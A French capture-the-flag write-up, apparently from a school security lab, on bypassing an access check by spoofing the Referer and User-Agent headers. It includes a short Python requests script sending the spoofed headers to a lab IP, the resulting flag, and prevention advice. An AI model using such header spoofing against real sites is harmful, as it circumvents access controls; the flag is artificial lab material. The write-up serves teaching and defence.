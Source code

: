 # Vulnérabilité de Referer Spoofing (Falsification de Referer)

## Découverte
Sur la page d'accueil du site, tout en bas, j'ai trouvé un lien "BornToSec" qui mène vers l'URL http://10.13.248.97/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f. En explorant cette page et en inspectant son code source, on a trouvé des commentaires HTML cachés révélant que l'application vérifie des en-têtes HTTP spécifiques :
- `Referer: https://www.nsa.gov/`
- `User-Agent: ft_bornToSec`

## Vulnérabilité
Il s'agit d'une vulnérabilité de **falsification des en-têtes Referer et User-Agent**. L'application utilise des en-têtes HTTP contrôlés par le client pour les contrôles d'accès, qui peuvent être facilement manipulés.

## Exploitation
On a créé un script Python simple pour envoyer une requête avec les en-têtes modifiés :
```python
import requests

headers = {
    'Referer': 'https://www.nsa.gov/',
    'User-Agent': 'ft_bornToSec'
}

response = requests.get('http://10.13.248.97/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f', headers=headers)
```
On obtient le flag:
```
The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Prévention
- Ne pas se fier aux en-têtes contrôlés par le client pour les décisions de sécurité
- Mettre en place une authentification appropriée avec des jetons de session ou des clés API
- Utiliser une vérification côté serveur pour le contrôle d'accès
- Appliquer des contrôles d'autorisation appropriés basés sur les rôles des utilisateurs authentifiés